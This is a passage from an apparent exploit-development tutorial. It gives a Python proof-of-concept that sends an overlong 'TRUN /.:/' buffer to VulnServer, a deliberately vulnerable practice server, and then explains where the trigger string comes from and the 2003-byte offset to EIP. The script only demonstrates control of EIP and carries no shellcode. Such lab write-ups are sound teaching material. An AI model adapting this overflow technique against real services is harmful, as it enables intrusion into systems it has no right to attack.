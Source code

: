 ```python
#!/usr/bin/env python
"""
Description: VulnServer "TRUN" Buffer Overflow w/ DEP Bypass (limited use-case)
Author: Cody Winkler
Contact: @cwinfosec (twitter)
Date: 12/18/2019
Tested On: Windows 10 x64 (wow64)

[+] Usage: python expoit.py <IP> <PORT>

$ python exploit.py 127.0.0.1 9999
"""

import socket
import struct
import sys

host = sys.argv[1]
port = int(sys.argv[2])

buffer = "TRUN /.:/"
buffer += "A"*2003
buffer += "B"*4
buffer += "C"*(3500-2003-4)

try:
    print "[+] Connecting to target"
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, port))
    s.recv(1024)
    print "[+] Sent payload with length: %d" % len(buffer)
    s.send(buffer)
    s.close()

except Exception, msg:
    print "[-] Something went wrong :("
    print msg
```

As a quick side-note, a lot of people don't know where the "/.:/" string comes from and just blindly put it in their VulnServer exploits. Not all of the exploitable functions within VulnServer will trigger on this string. This string came from fuzzing output from [SPIKE](http://www.immunitysec.com/spike.html) written by [Dave Aitel](https://en.wikipedia.org/wiki/Dave_Aitel). So if you've ever wondered what the string was, or where it came from, now you know. 

In short, this exploit connects to VulnServer on port 9999, sends the TRUN command, triggers a vulnerable function within VulnServer via the "/.:/" string, and overflows that function with a large input of A's, B's, and C's. The offset to the instruction pointer was calculated at offset 2003 bytes. This exploit should result in the hex characters "42424242" showing in EIP to demonstrate we have some level of control over the program.
